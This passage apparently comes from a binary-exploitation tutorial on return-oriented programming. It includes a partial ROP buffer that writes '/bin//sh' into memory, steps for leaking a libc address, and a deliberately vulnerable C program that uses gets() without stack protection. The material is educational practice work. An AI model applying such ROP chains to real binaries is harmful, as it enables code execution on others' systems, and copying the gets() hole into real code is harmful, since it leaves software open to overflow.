 ```
buffer += address(pop_eax) # place value into EAX
buffer += "/bin"           # 4 bytes at a time
buffer += address(pop_edx)         # place value into edx
buffer += address(writable_memory)
buffer += address(writewhatwhere)

buffer += address(pop_eax)
buffer += "//sh"
buffer += address(pop_edx)
buffer += address(writable_memory + 4)
buffer += address(writewhatwhere)
```

## ROP - Leaking LIBC address

### Quick Resume

1. Find overflow offset
2. Find POP_RDI, PUTS_PLT and MAIN_PLT gadgets
3. Find memory address of puts and guess the libc version (donwload it)
4. Given the library just exploit it

### Other tutorials and binaries to practice

This tutorial is going to exploit the code/binary proposed in this tutorial: https://tasteofsecurity.com/security/ret2libc-unknown-libc/
Another useful tutorial: https://made0x78.com/bseries-ret2libc/

### Code

Filename: `vuln.c`

```
#include <stdio.h>

int main() {
    char buffer[32];
    puts("Simple ROP.\n");
    gets(buffer);

    return 0;
}
gcc -o vuln vuln.c -fno-stack-protector  -no-pie
```

### ROP - PWNtools template

[Find my ROP-PWNtools template here.](https://github.com/carlospolop/hacktricks/blob/master/exploiting/linux-exploiting-basic-esp/rop-pwn-template.md) I'm going to use the code located there to make the exploit.
Download the exploit and place it in the same directory as the vulnerable binary.
